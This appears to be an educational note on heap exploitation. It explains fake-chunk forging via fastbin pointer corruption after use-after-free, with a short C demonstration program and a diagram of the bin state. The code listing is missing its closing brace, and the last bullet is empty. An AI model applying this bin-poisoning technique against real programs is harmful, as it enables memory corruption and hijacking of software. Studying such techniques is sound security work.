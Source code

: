 ```yaml
---
layout: default
title:
tags: 

---
```

After a chunk is freed, it is inserted inside a bin, but the pointer is available in the program. If the attacker has control of this pointer via [Use after free](./Use-after-free.md) or [Double Free](./Double%20Free.md) they can modify the linked list structure in bins and insert their own forged chunks.

`gcc fake_chunk.c -o chall`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

struct fake_chunk {
    size_t prev_size;
    size_t size;
    struct fake_chunk *fd;
    struct fake_chunk *bk;
    char buf[10];
};

int main() {
    char *a = malloc(10);
    printf("a ptr : %p\n", a);

    struct fake_chunk chunk;
    printf("fake chunks addr %p\n", &chunk);
    chunk.size = 0x20;
    char *data = (char*)&chunk.fd;
    strcpy(data, "Attacker's data : Hacked");

    free(a);

    *((unsigned long long*)a) = (unsigned long long)&chunk;
    printf("Freed ptr a\na now points to %p which is equal to fake chunk %p\n", a, &chunk);

    char *b = malloc(10); // returns same ptr as a

    char *victim = malloc(10);
    printf("Allocate 2 more chunks\nb ptr (same chunks as a): %p\nvictim ptr : %p\n", b, victim );
    
    printf("%s\n", victim);

    return 0;
```



```
1. a is freed:
fastbin : head->a->tail

2. a's fd pointer is changed to point to 'fake chunk':
fastbin : head->a->fake chunks -> undefined 
(fd of fake chunk will be holding attacker's data)

3. malloc request:
fastbin :  head -> forged chunk -> undefind
a is returned

4. malloc request:
fastbin : head -> undefined [fake chunk is returned ]
```


- Another `malloc` request for the fast chunk in the same bin will result in a segmentation fault. 
- 